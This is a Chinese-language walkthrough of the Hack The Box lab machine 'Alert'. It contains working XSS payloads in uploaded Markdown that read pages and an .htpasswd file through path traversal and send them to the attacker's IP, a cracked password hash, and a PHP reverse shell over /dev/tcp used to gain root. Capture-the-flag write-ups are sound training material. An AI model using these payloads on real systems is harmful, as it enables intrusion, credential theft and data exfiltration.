

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap Scan

```
nmap alert.htb -sC -sV -T4 -Pn
```


开放端口：22、80，httpserver是Apache

进入80端口的网页，发现存在Markdown文件上传


根据题目名称Alert猜测，应该与XSS漏洞有关

## Subdomain Fuzz

```
ffuf -w main.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac
```


发现存在statistics的子域名

## XSS

这个是通过XSS读取到message.php的内容。具体操作如下：  
使用这个载荷，这个是预览md的时候的URL模板，把page设置为messages。

```
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.16.90/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>
```

然后另起一个**python -m http.server 80**，会收到**URL**加密后的页面内容

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

从这里可以看到管理员查看的时候是有**messages.php?file**这个参数的。

在markdown文件中插入有效载荷

```
<script>
fetch("http://alert.htb/messages.php?file=filepath")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.xx.xx:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

经过尝试，无法直接读取到/etc/passwd这种敏感文件

但是考虑到web服务器使用的是Apache，可以参考一下这篇文章

- [什么是.htpasswd文件？-CSDN博客](https://blog.csdn.net/cunjiu9486/article/details/109071899)

于是有效载荷就修改为了这样↓

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.11:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

将其上传后，复制分享链接


然后进入到Contact Us


点击发送，会在终端收到加密字符串


```
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A

<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```

这看起来像是一种hash加密

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long alert.hash
```


使用SSH登录可以得到User.txt


## Privilege Escalation

遍历目录没有什么可疑文件，并且发现另一个用户david


上传linpeas，发现8080是打开的


将端口转发出来

```
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```



在/opt目录下发现这个Website Monitor的文件夹，并且是有root权限的


```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.16.11/100 0>&1'"); ?>
```

写入反弹Shell的木马，并且设置监听

尝试访问下面这个路径

```
http://127.0.0.1:8080/config/hyh.php
```

得到反弹Shell，拿到Root权限


## Summary

这个XSS漏洞与以往CTF中遇到的XSS有点不一样

他并不是用来窃取身份凭证，而是用来进行主动访问，将信息外带
